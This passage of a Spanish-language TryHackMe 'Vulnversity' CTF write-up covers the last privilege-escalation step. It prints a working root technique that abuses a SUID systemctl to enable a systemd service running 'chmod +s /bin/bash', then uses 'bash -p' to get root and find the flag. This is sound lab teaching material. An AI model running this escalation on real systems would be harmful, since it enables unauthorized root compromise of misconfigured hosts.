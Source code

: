 
Como podemos ver, podemos abusar de este binario fácilmente, además de que nos permite ejecutar cualquier código malicioso que queramos

Para conseguir la última `flag` haremos lo siguiente:

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Si nos percatamos, lo único que modificamos de la información que nos provee `GTFOBins`, fue el código a ejecutar, en este caso, estamos asignando un permiso `SUID` a la `/bin/bash`, para posteriormente, a través del parámetro `-p`, ejecutar el binario `/bin/bash` manteniendo permisos y privilegios del usuario al que le pertenece el binario, en este caso al usuario _root_. Otro aspecto que se modificó, fue utilizar el binario `/bin/systemctl` desde su ruta absoluta, mas no de su ruta relativa.

Una vez hemos abusado del binario `/bin/systemctl`, haremos lo siguiente:

```
/bin/bash -p
```

Una vez siendo _root_, podemos pasar a buscar su respectiva `flag`, esto lo podemos hacer así:

```
find . -name root.txt
```
 
![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-27-Vulnversity---Try-Hack-Me/19.png)

